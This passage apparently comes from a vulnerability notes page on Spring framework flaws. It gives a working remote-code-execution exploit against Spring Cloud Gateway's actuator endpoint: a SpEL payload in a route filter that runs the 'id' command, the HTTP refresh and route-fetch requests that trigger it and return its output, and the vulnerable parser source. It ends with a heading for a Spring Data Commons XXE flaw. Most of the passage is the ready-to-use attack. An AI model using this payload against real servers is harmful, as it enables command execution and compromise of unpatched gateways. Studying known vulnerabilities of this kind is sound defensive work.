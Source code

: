 ```
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```
```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
Factor: 
```
ShortcutConfigurable
static Object getValue(SpelExpressionParser parser, BeanFactory beanFactory, String entryValue) {
    String rawValue = entryValue;
    if (entryValue != null) {
        rawValue = entryValue.trim();
    }

    Object value;
    if (rawValue != null && rawValue.startsWith("#{") && entryValue.endsWith("}")) {
        StandardEvaluationContext context = new StandardEvaluationContext();
        context.setBeanResolver(new BeanFactoryResolver(beanFactory));
        Expression expression = parser.parseExpression(entryValue, new TemplateParserContext());
        value = expression.getValue(context);
    } else {
        value = entryValue;
    }

    return value;
}
```
### （3）Spring Data Commons
#### CVE-2018-1259 XXE
Affected Version: < 1.13.12 or < 2.0.7 + XMLBeam <= 1.4.14
